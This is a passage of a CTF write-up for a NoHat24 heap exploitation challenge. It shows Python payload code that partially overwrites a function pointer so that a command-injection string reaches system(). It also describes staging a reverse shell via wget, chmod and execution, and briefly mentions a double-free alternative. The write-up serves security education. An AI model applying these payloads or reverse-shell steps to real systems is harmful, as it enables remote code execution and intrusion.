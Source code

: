 ```bash
00000000000012c0 <function_drop>:
```

The `function_drop` address is `00000000000012c0`, while `execute_system` is `0000000000001270`. If we overwrite the last byte of the `object->drop` pointer with `0x70` and we execute the `CMD_DROP` command later, we can trigger the execution of `system` with input in our control (the last allocated object itself):
```python
    # ID & price
    fake_obj = "AA;$({});#".format(cmd)
    #fake_obj += "\x41" * 0x2c
    fake_obj += "\x41" * ( 0x30 - len(fake_obj) )
    # CMD_DROP function pointer => @execute_system
    # @execute_system
    fake_obj += "\x70" + "\x00"

    # Create => alloc bucket1->freelist[1]
    content += "\x10"
    content += "\x37\x13"  # sh
    content += "\x16\x00"
    # Name: system payload
    content += "BB\x00"
    # Description: alloc on bucket1->freelist[0] (obj[0])
    content += fake_obj
    content += "\n"

    # CMD_DROP => Trigger arbitrary function call
    content += "\x14"
    content += "\x41\x41"
    content += "\n"
```

Since the `struct object` allocation is limited in size for a direct reverse shell, the vulnerability is exploited three times to first upload a complete reverse shell through `wget`, `chmod` and finally execute it.

## Alternative Solution (Double Free)
An alternative, originally not the intended solution, can be to exploit the Double Free vulnerability instead. It is possible to return the same `alloc` twice by inserting (through exploitation) the same freelist offset inside the `bucket->freelist` and achieve the same objective. If you have solved the challenge in that way at the NoHat CTF or in a different moment, we are really curious about that, let us know!

## Conclusion
The final exploit can be found [here](https://github.com/hacktivesec/nohat24-blog-references/tree/main/pwn/exploit). Hope you have enjoyed this two article series on our CTF write-ups for the NoHat24 CTF event.

## Appendix
### Exploit Code
`exploit.sh`
